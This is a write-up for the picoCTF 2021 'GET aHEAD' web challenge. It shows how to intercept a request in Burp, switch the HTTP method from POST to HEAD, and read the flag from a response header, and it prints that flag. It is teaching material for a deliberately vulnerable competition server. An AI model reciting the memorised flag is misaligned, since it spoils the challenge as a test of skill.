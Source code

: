 # PicoCTF2021-GET aHEAD

## Overview

Points: 20

Category: Web Exploitation

## Description

>Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:47967/


## Hints
>1. Maybe you have more than 2 choices.
>2. Check out tools like Burpsuite to modify your requests and look at the responses

## Approach

1. Go to http://mercury.picoctf.net:47967/


2. Turn on intercept in Burp


3. Click either of the options i.e. `choose red` or `choose blue` 

4. If you `choose blue` you will get as like the following in burp interceptor :

```sh
POST /index.php HTTP/1.1
Host: mercury.picoctf.net:47967
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:47967/
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://mercury.picoctf.net:47967
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1 
```
5. Change method `POST` to `HEAD`.

      >>Learn more about `HTTP Methods` [here](https://www.w3schools.com/tags/ref_httpmethods.asp).

7. You will get flag in server response.

```sh
HTTP/1.1 200 OK
flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}
Content-type: text/html; charset=UTF-8
```


## FLAG : picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}








